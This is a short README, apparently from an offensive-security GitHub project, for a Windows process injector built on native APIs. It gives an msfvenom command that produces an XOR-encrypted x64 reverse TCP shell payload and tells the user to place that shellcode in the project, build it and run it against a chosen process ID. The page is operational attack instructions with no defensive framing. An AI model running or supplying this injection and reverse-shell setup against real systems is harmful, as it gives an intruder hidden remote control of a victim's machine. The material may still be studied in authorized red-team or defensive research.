 # Process Injection using Native APIs

## Usage 
1. Generate and replace the shellCode:
```
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=4444 --arc x64 --platform windows EXITFUNC=thread --encrypt xor --encrypt-key z -f c
```
2. Build the project (x64)
3. Execute
```
.\NativeAPIs.exe <PID>
```
![image](https://github.com/NotokDay/NTProcessInjector/assets/115024808/77c97a98-7cf5-40fa-9df0-1eadb3521502)
![image](https://github.com/NotokDay/NTProcessInjector/assets/115024808/110de900-50ae-45ca-b595-69a3dd082e4a)

